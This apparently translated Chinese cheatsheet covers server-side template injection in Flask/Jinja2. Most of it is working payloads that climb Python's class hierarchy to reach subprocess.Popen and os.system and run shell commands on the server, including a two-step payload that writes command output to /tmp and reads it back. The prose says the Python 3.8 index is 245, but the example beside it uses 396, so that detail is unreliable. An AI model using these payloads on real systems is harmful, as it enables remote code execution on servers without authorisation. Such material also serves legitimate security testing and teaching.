 Exploring SSTI in Flask/Jinja2 – Part 2

Cheatsheet – Flask & Jinja2 SSTI

使用 subprocess.Popen

在这里，我们需要努力寻找的一个强大类型是 subprocess.Popen。

在 Python 3.8 中，它的索引可能是 245。当然，这个索引值会根据加载的模块的不同而有所变化。

```
{{[].__class__.__mro__[1].__subclasses__()[396]}}

<class 'subprocess.Popen'>

```

在 Python 2.7 中，它的索引可能是 245。

```
{{[].__class__.__mro__[1].__subclasses__()[245]}}

<class 'subprocess.Popen'>

```

执行指令：

```
{{[].__class__.__mro__[1].__subclasses__()[245]('ls /',shell=True,stdout=-1).communicate()[0].strip()}}

```

Os 模块（Python 2.7）

除了上面介绍的类型之外，还有一种类型也有可能被攻击者所利用。它缓存了所有可用的 python 模块，其中，我们可以找到 os 模块。

```
WARNINGS_INSTANCE.__init__.func_globals['linecache'].__dict__.values()[12]

<module 'os' from '/usr/lib/python2.7/os.pyc'>

```

来源：https://hexplo.it/escaping-the-csawctf-python-sandbox/

将这个有趣的模式应用于 Jinja 模板，我们就能得到如下所示的 payload。

```
{{''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals['linecache'].__dict__.values()[12].system('id > /tmp/cmd')}}

```

这里有一个 two-step 的 payload：先执行一个命令并将命令输出临时存储在 temp 文件夹中，然后，再使用另一个 Jinja 表达式来读取命令输出。

```
{{ ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals['linecache'].__dict__.values()[12].system('id > /tmp/cmd') }}{{''.__class__.__mro__[2].__subclasses__()[40]("/tmp/cmd","r").read() }}

```

